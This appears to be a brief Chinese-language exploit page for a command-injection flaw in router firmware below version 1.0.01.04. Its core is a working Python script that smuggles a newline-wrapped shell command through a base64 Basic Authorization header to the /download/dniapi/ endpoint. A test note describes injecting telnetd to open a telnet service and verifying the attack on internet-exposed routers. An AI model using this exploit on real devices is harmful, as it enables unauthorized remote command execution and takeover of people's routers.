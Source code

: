 ## EXP

根据上面Command Inject EXP代码，将字符拼接处的;换成\n即可。

```python
# affect firmware version <1.0.01.04
import requests
import sys
import base64
import urllib3
 
if len(sys.argv)!=3:
    print "Parameter error. python exp.py url \"command with no parameters\""
    exit(0)
 
url = sys.argv[1]
cmd =  sys.argv[2]
 
CMD="\n"+cmd+"\n"
CMD=base64.b64encode(CMD)
 
header = {'Authorization':"Basic "+CMD}
 
urllib3.disable_warnings()
 
if url[-1:]=='/':
   url=url[:-1]
r = requests.get(url+"/download/dniapi/", headers=header,verify=False)
 
print "DONE!"

```
## 测试

尝试过注入telnetd命令来开启telnetd服务

![v1.0.01.02](../pic/iot/img1/add15.png)

但经1day打进去的公网设备验证发现，该系列路由器里没有配置用户密码。
